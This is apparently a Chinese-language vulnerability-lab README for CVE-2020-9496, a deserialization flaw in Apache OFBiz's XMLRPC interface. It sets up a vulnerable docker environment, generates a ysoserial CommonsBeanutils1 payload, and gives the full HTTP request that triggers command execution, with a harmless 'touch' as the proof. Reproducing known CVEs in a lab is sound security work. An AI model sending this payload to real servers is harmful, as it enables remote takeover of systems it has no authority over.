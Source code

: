 # Apache OfBiz 反序列化命令执行漏洞（CVE-2020-9496）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 漏洞环境

执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker compose up -d
```

在等待数分钟后，访问`https://your-ip/myportal/control/main`查看到登录页面，说明环境已启动成功。

## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考连接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

进入容器中，可见`touch /tmp/success`已成功执行：

![](3.png)
